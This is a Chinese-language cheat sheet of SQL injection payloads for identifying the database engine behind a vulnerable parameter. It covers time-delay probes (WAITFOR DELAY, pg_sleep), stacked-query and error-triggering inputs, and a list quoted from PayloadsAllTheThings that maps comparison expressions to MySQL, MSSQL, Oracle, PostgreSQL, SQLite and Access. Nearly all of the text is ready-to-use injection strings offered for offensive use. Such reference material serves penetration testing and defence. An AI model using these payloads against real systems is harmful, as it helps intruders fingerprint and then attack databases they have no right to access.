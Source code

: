 SQL Server识别：
|描述|查询语句|
|----|----|
|睡眠|id=';WAITFOR DELAY '00:00:10'; --|
|字符串拼接|id='mssql'+'mssql' --|
|函数|@@rowcount --<br>SQUARE(1) --<br>@@pack_received --|
|默认变量|id=sql'; SELECT @@SERVERNAME --|
|错误信息|id='<br>id=@@SERVERNAME<br>id=0/@@SERVERNAME|
|比较函数|BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)<br>@@CONNECTIONS>0<br>@@CONNECTIONS=@@CONNECTIONS|

PostgreSQL识别：
|描述|查询语句|
|----|----|
|睡眠|SELECT pg_sleep(10)|
|字符串拼接|'foo'\|\|'bar'|
|默认变量|SELECT version()|
|错误信息|1 = (select case when (条件语句) then 1/(select 0) else null end)|
|比较函数|pg_client_encoding()=pg_client_encoding()<br>get_current_ts_config()=get_current_ts_config()<br>quote_literal(42.5)=quote_literal(42.5)<br>current_database()=current_database()|

这里放置一个来自[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#dbms-identification)的表：
```sql
["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```
